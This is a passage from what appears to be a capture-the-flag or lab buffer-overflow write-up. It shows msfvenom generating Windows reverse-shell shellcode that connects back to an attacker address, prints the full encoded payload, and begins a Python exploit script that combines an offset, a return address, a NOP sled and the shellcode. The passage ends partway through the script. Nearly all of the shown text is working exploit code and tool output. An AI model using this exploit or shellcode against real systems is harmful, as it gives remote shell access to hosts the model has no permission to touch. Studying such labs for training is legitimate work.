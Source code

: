 We have two addresses. Let's use the second one. `0x080416bf` will become `\xbf\x16\x04\x08`.

Now we can generate a reverse shell payload using msfvenom:

``` console
vladislav@Mac Desktop % msfvenom -p windows/shell_reverse_tcp LHOST=10.18.7.222 LPORT=4444 -b "\x00\x0a" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] = 
"\xda\xc1\xbe\xae\x2f\x76\x11\xd9\x74\x24\xf4\x5d\x29\xc9"
"\xb1\x52\x83\xed\xfc\x31\x75\x13\x03\xdb\x3c\x94\xe4\xdf"
"\xab\xda\x07\x1f\x2c\xbb\x8e\xfa\x1d\xfb\xf5\x8f\x0e\xcb"
"\x7e\xdd\xa2\xa0\xd3\xf5\x31\xc4\xfb\xfa\xf2\x63\xda\x35"
"\x02\xdf\x1e\x54\x80\x22\x73\xb6\xb9\xec\x86\xb7\xfe\x11"
"\x6a\xe5\x57\x5d\xd9\x19\xd3\x2b\xe2\x92\xaf\xba\x62\x47"
"\x67\xbc\x43\xd6\xf3\xe7\x43\xd9\xd0\x93\xcd\xc1\x35\x99"
"\x84\x7a\x8d\x55\x17\xaa\xdf\x96\xb4\x93\xef\x64\xc4\xd4"
"\xc8\x96\xb3\x2c\x2b\x2a\xc4\xeb\x51\xf0\x41\xef\xf2\x73"
"\xf1\xcb\x03\x57\x64\x98\x08\x1c\xe2\xc6\x0c\xa3\x27\x7d"
"\x28\x28\xc6\x51\xb8\x6a\xed\x75\xe0\x29\x8c\x2c\x4c\x9f"
"\xb1\x2e\x2f\x40\x14\x25\xc2\x95\x25\x64\x8b\x5a\x04\x96"
"\x4b\xf5\x1f\xe5\x79\x5a\xb4\x61\x32\x13\x12\x76\x35\x0e"
"\xe2\xe8\xc8\xb1\x13\x21\x0f\xe5\x43\x59\xa6\x86\x0f\x99"
"\x47\x53\x9f\xc9\xe7\x0c\x60\xb9\x47\xfd\x08\xd3\x47\x22"
"\x28\xdc\x8d\x4b\xc3\x27\x46\x7e\x06\x20\x48\x16\x24\x2e"
"\x65\xbb\xa1\xc8\xef\x53\xe4\x43\x98\xca\xad\x1f\x39\x12"
"\x78\x5a\x79\x98\x8f\x9b\x34\x69\xe5\x8f\xa1\x99\xb0\xed"
"\x64\xa5\x6e\x99\xeb\x34\xf5\x59\x65\x25\xa2\x0e\x22\x9b"
"\xbb\xda\xde\x82\x15\xf8\x22\x52\x5d\xb8\xf8\xa7\x60\x41"
"\x8c\x9c\x46\x51\x48\x1c\xc3\x05\x04\x4b\x9d\xf3\xe2\x25"
"\x6f\xad\xbc\x9a\x39\x39\x38\xd1\xf9\x3f\x45\x3c\x8c\xdf"
"\xf4\xe9\xc9\xe0\x39\x7e\xde\x99\x27\x1e\x21\x70\xec\x2e"
"\x68\xd8\x45\xa7\x35\x89\xd7\xaa\xc5\x64\x1b\xd3\x45\x8c"
"\xe4\x20\x55\xe5\xe1\x6d\xd1\x16\x98\xfe\xb4\x18\x0f\xfe"
"\x9c";
```

Updating our python script:
```python
#!/usr/bin/env python3

import socket, sys

ip = "10.10.7.45"
port = 31337
payload_length = 300
offset = 146
payload = b'A' * offset + b'\xBF\x16\x04\x08' + b'\x90' * 10

payload += b"\xda\xc1\xbe\xae\x2f\x76\x11\xd9\x74\x24\xf4\x5d\x29\xc9"
payload += b"\xb1\x52\x83\xed\xfc\x31\x75\x13\x03\xdb\x3c\x94\xe4\xdf"
payload += b"\xab\xda\x07\x1f\x2c\xbb\x8e\xfa\x1d\xfb\xf5\x8f\x0e\xcb"
payload += b"\x7e\xdd\xa2\xa0\xd3\xf5\x31\xc4\xfb\xfa\xf2\x63\xda\x35"
payload += b"\x02\xdf\x1e\x54\x80\x22\x73\xb6\xb9\xec\x86\xb7\xfe\x11"
payload += b"\x6a\xe5\x57\x5d\xd9\x19\xd3\x2b\xe2\x92\xaf\xba\x62\x47"
payload += b"\x67\xbc\x43\xd6\xf3\xe7\x43\xd9\xd0\x93\xcd\xc1\x35\x99"
payload += b"\x84\x7a\x8d\x55\x17\xaa\xdf\x96\xb4\x93\xef\x64\xc4\xd4"
payload += b"\xc8\x96\xb3\x2c\x2b\x2a\xc4\xeb\x51\xf0\x41\xef\xf2\x73"
```